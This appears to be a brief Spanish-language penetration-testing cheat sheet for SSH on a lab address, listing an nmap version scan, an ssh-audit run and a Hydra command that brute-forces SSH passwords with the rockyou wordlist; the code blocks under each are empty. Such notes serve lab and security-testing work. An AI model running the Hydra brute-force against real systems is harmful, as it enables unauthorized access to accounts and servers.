 # Nmap

Enumerar versiones `nmap -sV -p 22 10.10.10.10`

```java

```

# SSH-Audit

`ssh-audit 10.10.10.10 > ssh_audit.txt`

```java

```

# Hydra

`hydra -l usuario -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10`

```java

```
